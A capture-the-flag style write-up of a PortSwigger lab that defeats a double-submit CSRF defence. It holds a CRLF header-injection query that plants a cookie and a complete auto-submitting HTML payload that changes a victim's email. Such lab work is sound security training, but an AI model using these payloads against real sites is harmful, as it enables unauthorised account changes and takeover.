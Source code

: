 ### CSRF where token is duplicated in cookie : PRACTITIONER

---

Given credentials `wiener:peter`, we need to create a CSRF attack to change the email of the victim user.
- It uses "double-submit" defense feature, which checks whether the token is the same as the one in the cookie.

Logging in with the given credentials.

![](./screenshots/lab1-1.png)

We see this page.

![](./screenshots/lab1-2.png)

We know that the update email is vulnerable to CSRF.
- Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab6-1.png)

We see that the csrf cookie is duplicated in the token.
- Trying to manipulate the values of the token and cookie.

1. Modify the token and leave the cookie.

![](./screenshots/lab6-2.png)

2. Modify the cookie and leave the token.

![](./screenshots/lab6-3.png)

3. Modifying both to the same value.

![](./screenshots/lab6-4.png)

Therefore, the validation technique simply checks if they are both equal.

To exploit this, we need to send a cookie that has the same value as the token present in the HTML payload.
- To do that, similar to [[Portswigger/CSRF/Lab 5|Lab 5]], we exploit the search functionality and add in the `GET` request header injection to set a cookie.

Capturing the `GET` request after searching using HTTP history.

![](./screenshots/lab5-8.png)

There is a `Set-Cookie` header being used to create a new cookie.
- We can change the path and the query parameters.

```
/?search=mins%0d%0aSet-Cookie:%20csrf=FAKE%3b%20SameSite=None
```

Sending this request we see that we added another cookie.

![](./screenshots/lab6-5.png)

Now, we need to add this to the HTML payload. 
- Add it by removing the script tags and adding an `img` tag.

```HTML
<html> 
	<body> 
		<form action="https://0a74009f03ba08e0811b02f200930080.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="FAKE" />
		</form> 
		<img src="https://0a74009f03ba08e0811b02f200930080.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=FAKE%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
	</body> 
</html>
```

> Adding this payload to the exploit server and then storing and delivering to victim completes the lab.

---



